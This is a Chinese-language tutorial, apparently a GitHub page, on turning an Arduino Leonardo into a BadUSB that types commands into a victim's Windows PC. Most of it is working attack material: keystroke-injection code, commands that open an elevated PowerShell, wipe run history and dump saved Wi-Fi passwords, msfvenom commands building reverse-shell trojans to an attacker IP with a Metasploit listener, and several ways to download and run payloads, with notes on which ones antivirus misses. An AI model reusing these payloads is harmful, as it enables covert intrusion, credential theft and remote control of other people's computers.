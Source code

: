 # 利用BadUSB远程控制

BadUSB是利用了USB协议上的漏洞，通过更改USB的内部固件，在正常的USB接口接入后，模拟外置鼠标、键盘的功能，以此来使目标主机执行已经精心构造好的命令。在此过程中不会引起杀毒软件、防火墙的一丝怀疑。而且因为是在固件级别的应用，U盘格式化根本无法阻止其内部代码的执行。

同样因为是对USB的利用，Windows、Linux、MAC等各类操作系统不必联网下载专用的驱动程序。此外，向BadUSB烧录的程序极为简单，大部分是对键盘按键进行模拟，上手较为容易。

BadUSB也是社会工程学的一个典型示例，它极大地利用了人们的好奇心，在路边捡到的USB，估计九成以上的人们都想看看里面有什么东西，而当你插入U盘，攻击就很难再停止下来了。

## 几种常的BadUSB

通常情况下都会把badusb制作成与U盘极其相似，且不会被受害者所察觉，badusb目前在淘宝有售，能够制作BadUSB的几种常见载体有：leonardo_Arduino、Phison、Teensy、Attiny85、PS2303（芯片）、Rubber_Ducky等，这里笔者都有试过，从外观形状和制作成功率来看，使用leonardo_Arduino制作BadUSB的效果最好，使用起来也较为方便。

## 烧录

- 安装Arduino IDE

arduino ide是一款专业的arduino开发工具，主要用于arduino程序的编写和开发，拥有开放源代码的电路图设计、支持ISP在线烧，同时支持Flash、Max/Msp、VVVV、PD、C、Processing等多种程序兼容的特点，在官网下载Arduino IDE，下载好后进行安装，将badusb连接主机，配置环境

- 获取开发板信息，确定是否连接

工具 -> 取得开发板信息 -> 有弹出说明已链接

- 设置开发板

1. 工具 -> 开发板 -> 开发板管理器 -> 选择Arduino AVR Boards板子，联网安装
2. 回到主界面，工具 -> 开发板 -> -> Arduino Leonardo
3. 回到主界面，工具 -> 端口 -> 选择合适的端口
4. 回到主界面，工具 -> 编程器 -> 选择:AVRISP mkII/USBasp（开他俩都可以，mac上用USBasp?）
5. 编写代码
6. 验证代码（对号）
7. 上传（右箭头）

- 编写代码

代码的编写我们可以借助Automator_2.0.1这款辅助软件，编写代码更加方便，软件：<https://github.com/Catboy96/Automator>

代码格式介绍：

```z
setup() 函数
用来初始化变量、Pin模式、开始使用库等
每次打开或重置Arduino板后，setup（）函数将只运行一次

loop() 函数
精确地执行其名称所建议的操作，并连续循环，从而允许程序更改和响应

#include<Keyboard.h>    //包含键盘模块的头文件
void setup();           //初始化
Keyboard.begin();       //开启键盘通信
delay(1000);            //延时1000毫秒
Keyboard.press();       //按下某个键
Keyboard.release();     //释放某个键
Keyboard.println();     //输入某些内容
Keyboard.end();         //结束键盘通信
Keyboard.press(KEY_RETURN);  //按下回车键
Keyboard.release(KEY_RETURN); //释放回车键

# 开启管理员级别的powershell
Keyboard.println("powershell.exe -command start-process powershell -verb runAs");  
# 清除运行窗口产生的记录
Keyboard.println("reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f");
# 让cmd窗口变成一个很小的窗口
Keyboard.println("cmd.exe /T:01 /K mode CON: COLS=16 LINES=1");
//删除桌面进程(all)
Keyboard.println("taskkill /f /im explorer.exe");

获取win连接过的所有wifi密码：
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
获取当前的wifi名：
netsh wlan show profiles
当前的wifi的密码：
netsh wlan show profile name="wifi名" key=clear
```

当写完代码后，首先点击第一个按钮进行验证，当显示编译完成则可点击上传进行烧录

模板：

```msf
#include<Keyboard.h> //包含键盘模块头文件

void setup() {
  // 运行一次的代码:
  Keyboard.begin();//开始键盘通信
  delay(1000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(500);
  Keyboard.press(KEY_LEFT_GUI);//按下win键
  delay(500);
  Keyboard.press('r');//按下r键
  delay(500);
  Keyboard.release(KEY_LEFT_GUI);//松掉win键
  Keyboard.release('r');//松掉r键
  delay(500);
  Keyboard.println("cmd");//输入cmd进入DOS
  delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);
Keyboard.println("这里换成你要用的代码");
delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);
  Keyboard.println("exit");//关闭cmd窗口
  delay(500);
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
  delay(500);
  Keyboard.end();//结束键盘通讯
}

void loop() {
  // 重复运行代码
}
```

## 利用msf生成windows端木马

在msf中输入以下命令生成木马

```msf
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.22.147 lport=4444  -f elf -o shell       # linux
msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.22.147 lport=4444  -f exe -o  shell.exe   # win
```

启动Apache2，将生成的木马复制到/var/www/html中

```msf
service apache2 start
sudo cp 木马名 /var/www/html
```

进入监听模式

```msf
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 你的ip
set LPORT 你监听的端口
run
```

## win下载命令

```cmd
certutil命令下载，有报毒提示：
certutil -urlcache -split -f https://www.xxx.com/test.py ff.py

bitsadmin命令下载，有报毒提示：
bitsadmin /transfer n http://www.xxx.com/setup.exe d:\2.exe

powershell命令下载,无提示
powershell (new-object System.Net.WebClient).DownloadFile( 'http://www.xxx.com/setup.exe','d:\3.exe')
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://fake-blog.com/1meiyongde/setup.exe','d:\11.exe')

vbs下载，无报毒，俩个命令，先生成vbs文件，在下载
echo set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments( 0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> ff.vbs
cscript ff.vbs http://www.xxx.com/setup.exe d:\1.exe

或者：
echo On Error Resume Next:Dim iRemote,iLocal:iLocal = LCase(WScript.Arguments(1)):iRemote = LCase(WScript.Arguments(0)):Set xPost = createObject("Microsoft.XMLHTTP"):xPost.Open "GET",iRemote,0:xPost.Send():Set sGet = createObject("ADODB.Stream"):sGet.Mode = 3:sGet.Type = 1:sGet.Open():sGet.Write(xPost.responseBody):sGet.SaveToFile iLocal,2 >> ss.vbs
cscript ss.vbs http://www.xxx.com/setup.exe d:\2.exe

win7 cmd 远程文件下载
certutil -urlcache -split -f http://192.168.3.211:8000/1.txt 11.txt

powershell 下载文件 win10测试成功
cmd 下进入powershell的方法 直接输入 powershell
$client = new-object System.Net.WebClient
$client.DownloadFile('http://192.168.3.211:8000/1.txt','D:\22.txt')
```
